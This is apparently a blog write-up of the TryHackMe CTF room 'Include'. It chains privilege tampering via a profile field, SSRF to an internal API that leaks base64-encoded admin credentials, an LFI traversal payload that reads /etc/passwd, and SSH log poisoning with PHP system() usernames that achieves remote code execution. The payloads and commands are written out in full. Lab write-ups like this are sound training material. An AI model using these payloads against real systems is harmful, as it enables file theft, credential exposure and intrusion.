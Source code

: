 ```yaml
---
title: THM - Include
description: A writeup for the TryHackMe room called Include.
date: 2024-06-09 00:00:00 +0000
categories: [CTF]
tags: [ctf, web]
---
```


The TryHackMe room "Include" demonstrates exploiting a web application through Local File Inclusion (LFI) vulnerabilities. By performing thorough enumeration and leveraging SSRF and LFI techniques, sensitive information was extracted, leading to credential discovery and eventually achieving remote code execution via log poisoning.

The IP for my machine was `10.10.134.223`, first add it to hosts file.
```bash
echo "10.10.134.223 include.thm" | sudo tee -a /etc/hosts
```

## Enumeration
Starting with an `nmap` scan using default scripts (`-sC`), service detection (`-sV`), and scanning all ports (`-p-`). `-oA` means output all formats, this is just so I can refer back to it easily
```
nmap -sC -sV -oA include_scan -p- include.thm
```

We can see a number of open ports:
```
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
110/tcp   open  pop3     Dovecot pop3d
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
4000/tcp  open  http     Node.js (Express middleware)
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
```
SSH is very rarely the initial access point, and the mail ports (25, 110, 143, 993, 955) require more effort to query. Let's first check out the web servers

## HTTP servers on 50000 and 4000
The web app on port 50000 just gives us a "restricted portal" message, requiring a login. We have no credentials at the moment so this is not helpful.

Web app on port 4000 just shows a message saying "log in with guest/guest, so let's do it.
![Login](/assets/img/include-thm-4000-site.png)

After logging in, we see a home page
![Home](/assets/img/include-thm-4000-home.png)

Let's try viewing our profile
![Profile](/assets/img/include-thm-4000-profile.png)

### SSRF
There is some funny looking information in the details section, almost as if we are seeing the raw key / value pairs. Let's try using the activity recommendation functionality to overwrite some of these variables e.g. setting `isAdmin` to `true`
![IsAdmin](/assets/img/include-thm-4000-isadmin-true.png)

After submitting this, the value updates in our details section, and we can see an API item in the navigation bar, let's navigate to this.

We can see the following:
![API](/assets/img/include-thm-4000-api-dashboard.png)

### API - Initial Credentials
It looks like we can get some credentials for the `SysMon` application on port 50000. Let's hit the `getAllAdmins101099991` endpoint on the API. The API is hosted locally, meaning we can only hit it from within the application. Notice that on the navigation bar, we have a "update banner image" functionality, where we can specify a URL. 
![Banner](/assets/img/include-thm-4000-update-banner.png)

Let's specify the endpoint's URL (`http://127.0.0.1:5000/getAllAdmins101099991`)

This is what we get back:
```
data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=
```

Note that it is base64 encoded, we can decode it:
```zsh
echo "eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=" | base64 -d

{
    "ReviewAppUsername":"admin",
    "ReviewAppPassword":"admin@!!!",
    "SysMonAppUsername":"administrator",
    "SysMonAppPassword":"S$9$qk6d#**LQU"
}
```

### SysMon application
We got `SysMon` application credentials, so let's log into the application.
On the home page we can get the first flag
![50000Home](/assets/img/include-thm-50000-home.png)

After reviewing the source code of the website, we can notice that the `src` attribute of the `img` element is `src="profile.php?img=profile.png"`. Let's navigate to this URL and capture the request using the burp suite proxy. Send the request to repeater and let's try some directory traversal.

### LFI
Trying common payloads such as `../../../../etc/passwd` did not yield any results, let's use intruder to use an LFI payload wordlist such as [this](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt) one 

Eventually, we can find a payload which will give us `/etc/passwd`:
```
http://include.thm:50000/profile.php?img=......///......///......///......///......///etc/passwd
[SNIP]
joshua:x:1002:1002:,,,:/home/joshua:/bin/bash
charles:x:1003:1003:,,,:/home/charles:/bin/bash
```
Revealing two users, joshua and charles.

### Trying to steal `id_rsa`
I tried stealing `id_rsa` for both users, but did not get anywhere. Then I considered the mail ports which were open, perhaps we can perform some log file poisoning to get RCE via our LFI vulnerability. Let's check for some common log files using the same LFI format from before (`......///......///......///......///......///`).

### Log Poisoning
I couldn't manage to get the apache `access.log` for some reason, but I could get /var/log/auth.log, which shows SSH authentication attempts.

Let's try and embed our PHP payload, which will list the current directory, into the SSH username.
```zsh
ssh '<?php system("ls"); ?>'@include.thm
```

If this fails, use hydra:
```zsh
hydra -u include.thm -p 'test' ssh -l '<?php system("ls"); ?>' include.thm
```

Now, when we read the contents of `auth.log` using our LFI:
```zsh
505eb0fb8a9f32853b4d955e1f9123ea.txt
api.php
auth.php
dashboard.php
index.php
[SNIP]
```

And with that, we get the file name, then we can modify our payload to cat the file:
```zsh
ssh '<?php system("cat 505eb0fb8a9f32853b4d955e1f9123ea.txt"); ?>'@include.thm
```

And we get the final flag.